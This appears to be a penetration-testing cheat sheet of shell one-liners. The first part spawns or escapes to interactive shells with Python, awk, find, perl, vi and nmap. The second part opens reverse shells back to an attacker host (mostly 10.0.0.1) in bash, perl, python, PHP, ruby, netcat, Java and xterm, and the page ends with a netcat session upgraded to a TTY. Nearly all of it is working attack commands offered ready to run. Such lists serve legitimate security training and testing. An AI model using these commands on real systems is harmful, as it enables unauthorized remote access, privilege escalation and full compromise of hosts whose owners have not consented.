 ## Python

`python -c 'import pty; pty.spawn("/bin/bash")'`



## echo

`echo os.system('/bin/bash')`

## sh shell

/bin/sh -i

## awk

`awk 'BEGIN {system("/bin/bash")}'`

## find

`find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;`

## perl

perl -e 'exec "/bin/bash";'

User perl to connection back to attacker machine with a shell

perl -e 'use Socket;$i="192.168.1.140";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

    ruby: exec "/bin/sh"

    lua: os.execute('/bin/sh')

    (From within IRB)

    exec "/bin/sh"

    (From within vi)

    :!bash

    (From within vi)

    :set shell=/bin/bash:shell

    (From within nmap)

    !sh






====

## REVERSE SHELL




### Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

### PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

There’s also an alternative PERL revere shell here.

### Python

This was tested under Linux / Python 2.7:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.
Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

nc -e /bin/sh 10.0.0.1 1234

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

### Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

[Untested submission from anonymous reader]
xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip


### Using Python To Get A TTY


$ nc -v -n -l -p 1234
listening on [any] 1234 …
sh: no job control in this shell
sh-3.2$ su -
su: must be run from a terminal
sh-3.2$ python -c ‘import pty; pty.spawn(“/bin/sh”)’
sh-3.2$ su -
su -
Password:
localhost ~ #
